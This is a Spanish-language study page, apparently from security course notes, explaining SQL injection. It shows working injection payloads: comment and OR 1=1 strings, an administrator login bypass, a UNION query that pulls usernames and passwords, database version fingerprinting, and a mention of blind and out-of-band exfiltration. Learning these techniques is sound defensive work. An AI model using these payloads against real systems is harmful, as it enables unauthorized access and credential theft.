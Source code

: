 # 1 - Teorico

## Intro

Permite introducir codigo sql donde normalmente no estaria permitido y obtener informacion directamente de la base de datos. O modificarla. Es incluso posible escalar esta amenaza a conseguir informacion del servidor.

![](../../.gitbook/assets/imagen%20%28605%29.png)

## Impacto de una inyeccion de SQL

Un ataque exitoso puede resultar en el acceso sin autorizacion o la obtencion de informacion. El atacante puede incluso dejar un backdoor a la organizacion llevando a un impacto a largo tiempo.



## Atacando la URI

Supongamos que tenemos la siguiente URL que genera la siguiente consulta:



```text
https://insecure-website.com/products?category=Gifts
```

```sql
SELECT * FROM products
WHERE category = 'Gifts'
AND released = 1
```

Releleased es un atributo interno dentro de la aplicacion. Ahora si un atacante modificase el codigo de la uri para agregar un comentario y este input no es sanitizado ocurre lo siguiente

```text
https://insecure-website.com/products?category=Gifts'--
```

```sql
SELECT * FROM products
WHERE category = 'Gifts'--'AND released = 1
```

Comenta el codigo y revela informacion de objetos sin release. Mejorando su ataque el atacante podria obtener todos los productos incluido aquellos que no conoce.

```text
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

```sql
SELECT * FROM products
WHERE category = 'Gifts'
OR 1=1--'AND released = 1
```

## Atacando Log-In

Que sucede cuando hacemos log in con nuestro **user**= wiener y nuestro **pass**= bluecheese

```sql
SELECT * FROM users 
WHERE username = 'wiener'
AND password = 'bluecheese'
```

Curioso que pasaria si ponemos de usuario \(sin siquiera pas\) administrator'--

```sql
SELECT * FROM users 
WHERE username = 'administrator' -- 'AND password = ''
```

 `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`

## Obteniendo datos de otras tablas \(UNION ATTACK\)

Usando union lo sumamos a nuestra query:

```sql
SELECT name, descriptiion FROM products
WHERE category = 'Gifts'
UNION SELECT username, password FROM users--
```

## Obteniendo informacion de la base

Algo relevante puede ser obtener informacion de la base a modo de seguir atacandola y obtener activos mas criticos. Se puede obtener informacion de las version:

**En oracle:**

```sql
SELECT * FROM v$version
```

Otra forma de obtener info es obtener a travez de esto:

```sql
SELECT * FROM information_schema.tables
```

## Inyeccion a ciegas

Cuando el atacante no sabe contra que motor de base de datos se esta enfrentando. Podemos cambiar la query acorde a elementos logicos que revelan esto. Por ejemplo delays en las query que difieren entre motores.

* Cambios de logica que den errores como dividir por 0.
* Obligar a delays
* Trigger out of band network interactions \(burp collaborator\): Exifltrar info poniendo informacion en un dominio controlado por nosotros.

## **SQL injection in different parts of the query**

La mayoria de las vulnerabilidades ocurren por las clausulas WHERE y SELECT. Estas inyecciones son reconocibles por los testers, pero, muchas tambien pueden ocurrir en otros segmenetos de la query:

*  En `UPDATE` dentro de los`WHERE`
*  En `INSERT` dentro de los valores a insertar
*  En `SELECT` dentro de las tablas o columnas.
*  En `SELECT` dentro de los `ORDER BY`.

## Inyeccion de segundo orden

![](../../.gitbook/assets/imagen%20%28608%29.png)

La diferencia radica en que en este ataque se mantiene el ataque persistido en la base y no actua directamente. En la imagen muestra como al registrarse coloca la inyeccion y luego al hacer la busqueda se ejecuta y cambia al administrador. No en el login sino al registrar usuario.

